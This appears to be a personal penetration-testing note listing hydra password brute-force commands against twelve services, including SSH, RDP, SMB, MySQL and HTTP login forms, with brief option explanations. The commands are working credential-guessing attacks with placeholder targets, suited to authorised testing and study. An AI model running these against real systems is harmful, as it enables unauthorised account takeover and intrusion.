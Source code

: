 
hydra is a popular brute-force tool used to test login credentials on various network services. Below are common usage examples for various services.

---

### 1. **[[FTP]] Brute Force**

```bash
hydra -l username -P /path/to/passwords.txt ftp://target_ip
```

- `-l username`: Single username.
- `-P /path/to/passwords.txt`: Path to the password list.
- `ftp://target_ip`: Specifies the FTP service and target.

---

### 2. **[[SSH]] Brute Force**

```bash
hydra -l username -P /path/to/passwords.txt ssh://target_ip
```

- Use the `ssh` protocol to target port 22 (default for SSH).

---

### 3. **[[Telnet]] Brute Force**

```bash
hydra -l username -P /path/to/passwords.txt telnet://target_ip
```

- Targets Telnet on the default port.

---

### 4. **HTTP Basic Authentication**

```bash
hydra -l username -P /path/to/passwords.txt http://target_ip
```

- For HTTP basic authentication endpoints.

---

### 5. **HTTP Form Authentication**

```bash
hydra -l username -P /path/to/passwords.txt target_ip http-post-form "/login:username=^USER^&password=^PASS^:Invalid login"
```

- `/login`: Path to the login form.
- `username=^USER^&password=^PASS^`: Fields in the form.
- `Invalid login`: String indicating a failed login attempt.

---

### 6. **[[MySQL]] Brute Force**

```bash
hydra -l root -P /path/to/passwords.txt mysql://target_ip
```

- Targets MySQL database authentication.

---

### 7. **[[RDP]] Brute Force**

```bash
hydra -l administrator -P /path/to/passwords.txt rdp://target_ip
```

- Brute-forces Remote Desktop Protocol (RDP).

---

### 8. **[[SMB (139, 445)]] Brute Force**

```bash
hydra -l username -P /path/to/passwords.txt smb://target_ip
```

- Tests SMB (Server Message Block) shares.

---

### 9. **POP3 Brute Force**

```bash
hydra -l username -P /path/to/passwords.txt pop3://target_ip
```

- Targets the POP3 service for email authentication.

---

### 10. **[[SMTP]] Brute Force**

```bash
hydra -l username -P /path/to/passwords.txt smtp://target_ip
```

- Tests SMTP authentication.

---

### 11. **LDAP Brute Force**

```bash
hydra -l username -P /path/to/passwords.txt ldap://target_ip
```

- LDAP directory authentication brute-forcing.

---

### 12. **VNC Brute Force**

```bash
hydra -P /path/to/passwords.txt vnc://target_ip
```

- Only requires a password list (`-P`) since VNC doesn’t use usernames by default.

---

## **Notes**

- **Adjusting Options**:
    - `-t`: Number of parallel tasks (e.g., `-t 16`).
    - `-vV`: Verbose output to display each attempt.
    - `-o`: Save output to a file (e.g., `-o results.txt`).

- **Custom Ports**: Use `-s` to specify a non-default port (e.g., `-s 8080` for HTTP.